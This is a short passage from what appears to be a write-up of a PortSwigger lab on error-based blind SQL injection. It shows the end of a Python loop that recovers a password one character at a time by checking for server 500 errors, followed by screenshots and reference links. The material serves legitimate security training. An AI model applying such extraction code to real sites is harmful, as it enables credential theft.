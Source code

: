 ```python
			
			r = requests.get(main_url, cookies=cookies)
			
			if r.status_code == 500:
				password += character
				p2.status(password)
				break

if __name__ == '__main__':

	maKeRequest()
```

![](/assets/img/ps-writeup-sqli/ps-lab12_26.png)

![](/assets/img/ps-writeup-sqli/ps-lab12_27.png)

![](/assets/img/ps-writeup-sqli/ps-lab12_28.png)

<https://portswigger.net/web-security/sql-injection/blind#error-based-sql-injection>

<https://portswigger.net/web-security/sql-injection/cheat-sheet>

